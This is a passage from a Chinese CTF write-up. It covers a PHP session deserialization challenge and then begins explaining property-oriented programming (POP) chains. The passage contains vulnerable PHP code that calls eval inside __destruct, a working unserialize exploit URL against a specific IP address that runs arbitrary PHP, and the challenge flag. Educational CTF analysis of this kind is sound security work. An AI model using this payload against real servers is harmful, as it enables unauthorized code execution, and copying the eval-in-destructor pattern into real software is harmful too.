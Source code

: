 #### 安洵杯Double-S

也是类似的一道session反序列化的题

```plaintext
<?php
ini_set('session.serialize_handler', 'php');
session_start();
class Anti
{
    public $info;
    function __construct()
    {
        $this->info = 'phpinfo();';
    }
    function __destruct()
    {
        eval($this->info);
    }
}
if(isset($_GET['aa']))
{
    if(unserialize($_GET['aa'])=='phpinfo')
    {
        $m = new Anti();
    }
}
else
{
    header("location:index.html");
}
?>
```

emmmm 几乎一样 可以自己试着做一下
`http://54.200.169.99:7000/session.php?aa=O:4:"Anti":1:{s:4:"info";s:36:"print_r(scandir(dirname(__FILE__)));";}`
发现flag文件http://54.200.169.99:7000/f1ag_i3_h3re
D0g3{Sim_Pl3_S3sSi0n}

## 0x04 POP链构造

### POP：面向属性编程

面向属性编程（Property-Oriented Programing） 用于上层语言构造特定调用链的方法，与二进制利用中的面向返回编程（Return-Oriented Programing）的原理相似，都是从现有运行环境中寻找一系列的代码或者指令调用，然后根据需求构成一组连续的调用链。在控制代码或者程序的执行流程后就能够使用这一组调用链来执行一些操作。

### 基本概念

在二进制利用时，ROP 链构造中是寻找当前系统环境中或者内存环境里已经存在的、具有固定地址且带有返回操作的指令集，而 POP 链的构造则是寻找程序当前环境中已经定义了或者能够动态加载的对象中的属性（函数方法），将一些可能的调用组合在一起形成一个完整的、具有目的性的操作。
二进制中通常是由于内存溢出控制了指令执行流程，而反序列化过程就是控制代码执行流程的方法之一，前提：**进行反序列化的数据能够被用户输入所控制。**
